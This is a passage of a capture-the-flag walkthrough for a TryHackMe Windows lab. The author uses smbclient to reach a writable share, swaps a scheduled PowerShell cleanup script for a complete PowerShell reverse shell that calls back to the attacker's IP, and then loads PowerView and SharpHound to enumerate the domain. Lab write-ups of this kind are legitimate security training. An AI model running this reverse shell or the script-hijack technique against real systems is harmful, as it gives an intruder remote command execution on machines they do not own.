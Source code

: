 - I see It Interesting `Enterprise-Share` So ....


```
root@kali:~/thm/vulnNet:active# smbclient \\\\10.10.214.82\\Enterprise-Share -U "enterprise-security"
Enter WORKGROUP\enterprise-security's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Feb 24 00:45:41 2021
  ..                                  D        0  Wed Feb 24 00:45:41 2021
  PurgeIrrelevantData_1826.ps1        A       69  Wed Feb 24 02:33:18 2021

                9558271 blocks of size 4096. 5135876 blocks available

smb: \> get PurgeIrrelevantData_1826.ps1 

getting file \PurgeIrrelevantData_1826.ps1 of size 69 as PurgeIrrelevantData_1826.ps1 (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
```
---
```
root@kali:~/thm/vulnNet:active# cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue

```

- I know what come in your mind we will change this powershell script with our reverse shell and see what will happen

```
$client = New-Object System.Net.Sockets.TCPClient("MY - IP",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

- **BooM We Got Our Shell😈️**
- **I will put also powerview.ps1 -- Sharphound.ps1** 

---

#  ↘️   ⬇️   ↙️
## Step 5 : ( **_Server Enumeration_** )

- Starting PowerView ...

```
PS C:\Enterprise-Share>powershell.exe
PS C:\Enterprise-Share> Import-Module C:\Enterprise-Share\powerview.ps1
PS C:\Enterprise-Share> Import-Module C:\Enterprise-Share\sharphound.ps1
```

